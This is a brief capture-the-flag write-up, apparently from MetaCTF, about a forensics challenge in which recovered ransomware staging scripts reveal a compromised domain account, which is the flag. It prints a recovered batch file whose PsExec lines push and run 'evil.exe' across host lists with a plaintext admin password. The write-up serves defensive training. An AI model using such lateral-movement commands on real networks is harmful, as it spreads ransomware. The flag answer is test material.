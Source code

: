 This file gave me a zip file from an incident. The challenge is to determine which user account was compromised, the user account is the flag.

Challenge info:
>Our security team has identified evidence of ransomware deployment staging in the network. We’re trying to contain and remediate the malicious operator’s deployment staging and access before the operator successfully spreads and executes ransomware within the environment. We’ve recovered some of the operator’s staging scripts and files. Can you help identify which user account’s credentials the operator had compromised and is planning to use to execute the ransomware?
>
>The flag format will be METAL\xxxxx 

After extracting the zip archive, it showed on folder name 'recovered files' and two other txt files.

![](1.png)

The text files contained a list of usernames, but nothing pointing at an IOC outside of some suspicious file names (copy.bat, exe.bat and wmi.bat). These files were located within the 'recovered files' folder. 

Looking into these files all contained psexec commands. exe,copy and wmi.bat were each for a different user. I tried entering the flag as the timq-admin user and it accepted it.

```sh
kali@kali-[~/boxes/ctfs/cybergames/just_wanna_run/incident017/recovered files]$cat exe.bat
start PsExec.exe -d @C:\share$\comps1.txt -u METAL\timq-admin> -p “Fall2021!” cmd /c c:\windows\temp\evil.exe
start PsExec.exe -d @C:\share$\comps2.txt -u METAL\timq-admin> -p “Fall2021!” cmd /c c:\windows\temp\evil.exe
start PsExec.exe -d @C:\share$\comps3.txt -u METAL\timq-admin> -p “Fall2021!” cmd /c c:\windows\temp\evil.exe
```

```sh
MetaCTF{METAL\timq-admin}
```